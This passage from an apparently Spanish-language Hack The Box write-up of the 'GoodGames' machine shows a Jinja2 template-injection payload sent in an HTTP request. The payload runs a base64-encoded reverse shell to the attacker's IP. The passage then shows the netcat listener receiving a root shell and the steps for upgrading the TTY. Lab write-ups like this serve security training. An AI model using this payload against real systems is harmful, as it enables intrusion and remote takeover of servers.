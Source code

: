 ```
Content-Length: 158

Origin: http://internal-administration.goodgames.htb

Connection: keep-alive

Referer: http://internal-administration.goodgames.htb/settings

Cookie: session=.eJwljjtqBTEMAO_iOoUl2frsZRbLlkgIJLCfKuTub-GVM83MX9nziPOzbNdxx0fZv1bZipKvsZhIqampV8KFQJBNwNAHkctwcq0yI7zJRHM2a6w0wFtAWvPBIcANx-SBKMFdpAc4EIMF8ByhAtglclbxniHVUtSkPCP3Gcf7Bh6c55H79fsdP48gY4Yn0Ss2c09zEtIEnACr60qzmmpe_l9VZT34.Z5pGiQ.bPlK4zFkG7YSTe5k_dNkiz-txIY

Upgrade-Insecure-Requests: 1

Priority: u=0, i

name={{ self.__init__.__globals__.__builtins__.__import__('os').popen('echo "c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMjcvMTIzNCAwPiYx"|base64 -d|bash').read() }}
```

Fijaos que para ejecutarlo se modifica el comando a ejecutar:

`echo "c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMjcvMTIzNCAwPiYx"|base64 -d|bash`

Esto le indica que sobre la cadena de texto enviada, se decodifique y posteriormente se ejecute mediante la bash shell.

Esto nos dará acceso al servidor:

```
nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.11.130] 49086
sh: 0: can't access tty; job control turned off
# whoami
root
```

Ahora tenemos una TTY pero poco práctica, ya que no podremos movernos con normalidad en la terminal. Para ello, ejecutaremos la siguiente serie de comandos:

Empezamos en la reverse shell obtenida

`script /dev/null -c bash`

Luego de esto presionamos ctrl_z para suspender la shell

```
^Z
stty raw -echo; fg
```

Ahora resetearemos la configuración de la shell que dejamos en segundo plano indicando reset y xterm

```
[1]  + continued  nc -nlvp 443
                              reset
                              reset: unknown terminal type unknown
Terminal type? xterm
```
